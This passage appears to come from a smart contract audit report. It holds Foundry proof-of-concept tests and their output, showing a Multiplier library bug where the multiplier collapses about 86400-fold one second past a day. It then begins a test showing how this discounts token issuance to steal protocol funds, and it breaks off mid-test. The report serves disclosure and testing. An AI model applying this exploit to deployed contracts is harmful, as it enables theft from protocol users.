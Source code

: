 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/lib/Multiplier.sol";

contract ZachTest is Test {
    function testZ__CurrentMultiplierAt1Day() public {
        uint lastTs = block.timestamp;
        vm.warp(block.timestamp + 1 days);
        uint lastMul = 1e18;
        uint feeScaled = 27260808837036;
        (,,, uint currMul) = Multiplier.computeMultiplier(lastTs, lastMul, feeScaled);
        console.log(currMul);
    }

    function testZ__CurrentMultiplierAt1DayPlus1() public {
        uint lastTs = block.timestamp;
        vm.warp(block.timestamp + 1 days + 1);
        uint lastMul = 1e18;
        uint feeScaled = 27260808837036;
        (,,, uint currMul) = Multiplier.computeMultiplier(lastTs, lastMul, feeScaled);
        console.log(currMul);
    }
}
```

```
Running 2 tests for test/Zach.t.sol:ZachTest
[PASS] testZ__CurrentMultiplierAt1Day() (gas: 7212)
Logs:
  999972739191162964

[PASS] testZ__CurrentMultiplierAt1DayPlus1() (gas: 7627)
Logs:
  11573443045433
```

As we can see, the `currentMultiplier` has decreased from 0.99e18 to 0.11e14, an 86400x decrease.

Now, let's step back and look at how this can be used to steal funds from the protocol. The following test can be dropped into `Issuance.t.sol` and run with `forge test --match-function testZ__IssuanceDiscounted`:

```solidity
function testZ__IssuanceDiscounted() public {
    seedInitial(10);

    vm.warp(block.timestamp + 1 days);

    TokenInfo[] memory realUnits = vault.realUnits();
    uint256[] memory startingBalances = new uint256[](realUnits.length);
    for (uint256 i; i < realUnits.length; i++) {
        startingBalances[i] = IERC20(realUnits[i].token).balanceOf(address(this));
    }

    uint snapshotId = vm.snapshot();

    // do the test at the 1 day mark
    mint(5e18);

    uint256[] memory correctSpend = new uint256[](realUnits.length);
    for (uint256 i; i < realUnits.length; i++) {
        correctSpend[i] = startingBalances[i] - IERC20(realUnits[i].token).balanceOf(address(this));
```